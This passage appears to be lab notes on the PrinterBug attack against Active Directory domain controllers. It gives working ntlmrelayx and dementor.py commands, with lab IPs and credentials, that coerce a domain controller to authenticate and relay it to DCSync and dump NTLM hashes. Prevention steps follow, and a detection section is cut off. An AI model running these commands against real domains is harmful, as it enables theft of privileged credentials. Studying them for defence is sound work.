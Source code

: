 ```
1. **Start NTLMRelayx**, targeting the second DC (`DC2`):

```bash
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
```

Sample Output:

```
[*] Servers started, waiting for connections
```

2. **Trigger the PrinterBug** using **Dementor** to make the first DC (`DC1`) authenticate to us:

```bash
python3 dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```

Expected Output (even with RPC errors, the relay may succeed):

```
[*] bound to spoolss
[*] getting context handle...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR
```

3. **Check NTLMRelayx output** – if successful, DCSync will return **NTLM hashes** of domain users, including privileged accounts.

---

### 🛡️ Prevention

1. **Disable Print Spooler** on all critical servers (especially DCs):

   * Use **Group Policy** or PowerShell:

     ```powershell
     Stop-Service spooler
     Set-Service spooler -StartupType Disabled
     ```

2. **Registry Hardening** – prevent remote RPC endpoint use:

   * Key: `HKLM\System\CurrentControlSet\Control\Print`
   * Value: `RegisterSpoolerRemoteRpcEndPoint`

     * `1`: Enabled
     * `2`: Remote access disabled

3. **Enforce SMB Signing** on DCs to prevent NTLM relays.

---

### 🕵️ Detection

* While **PrinterBug attacks don't generate event ID 4662** (typically used for DCSync detection), they may still be spotted by:
